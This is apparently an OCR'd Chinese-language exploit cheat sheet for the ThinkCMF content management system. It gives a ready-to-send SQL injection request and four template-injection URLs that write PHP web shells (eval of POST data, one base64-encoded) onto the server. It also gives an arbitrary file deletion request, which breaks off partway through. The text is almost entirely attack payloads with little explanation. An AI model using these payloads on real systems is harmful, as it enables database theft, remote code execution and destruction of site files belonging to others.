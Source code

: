 
![](https://mmbiz.qpic.cn/mmbiz_png/ffq88LJJ8oPhzuqa2g06cq4ibd8KROg1zLzfrh8U6DZtO1oWkTC1hOvSicE26GgK8WLTjgngE0ViaIFGXj2bE32NA/640?wx_fmt=png)

Thinkcmf 相关

  

### 前台 SQL 注入:

1.  依赖条件
    
    需要普通用户权限，默认可注册
    
2.  payload：
    
    POST /ThinkCMFX/index.php?g=portal&m=article&a=edit\_post HTTP/1.1
    
    Host: localhost
    
    Connection: close
    
    Cookie: PHPSESSID=kcg5v82ms3v13o8pgrhh9saj95
    
    Content-Type: application/x-www-form-urlencoded
    
    Content-Length: 79
    

       postid=bind&postid=0 and updatexml(1, concat(0x7e,user(),0x7e),1)--+-  

### 前台模版注入漏洞 - 可 getshell 四处

（仅在 windows 环境下设置）

第一处

http://website/ThinkCMFX/index.php?g=Comment&m=Widget&a=fetch&templateFile=/../public/index&content=<%3fphp+file\_put\_contents('m.php','<%3fphp+eval($POST\[\])%3b');?>&prefix=

第二处  http://website/ThinkCMFX/index.php?g=Api&m=Plugin&a=fetch&templateFile=/../../../public/index&content=<%3fphp+file\_put\_contents('m.php','<%3fphp+eval($POST\[\])%3b');?>&prefix=

第三处  /index.php?a=fetch&templateFile=public/index&prefix=''&content=<php>file\_put\_contents('test.php','<?php phpinfo(); ?>')</php>

第四处 / index.php?a=fetch&content=<?php+file\_put\_contents("mrxn.php", base64\_decode("PD9waHAgZXZhbCgkX1BPU1RbIjAwMCJdKTs/Pg=="));  

### 任意文件删除 - 只能 windows 删除

在用户上传头像处存在任意文件删除漏洞，发送如下数据包后，会删除网站根目录下一个名为 test.txt 的文件。（该漏洞仅能在 Windows 下触发）

POST /ThinkCMFX/index.php?g=User&m=Profile&a=do\_avatar& HTTP/1.1

Host: localhost

Cookie: PHPSESSID=bggit7phrb1dl99pcb2lagbmq0;

Connection: close

Content-Type: application/x-www-form-urlencoded

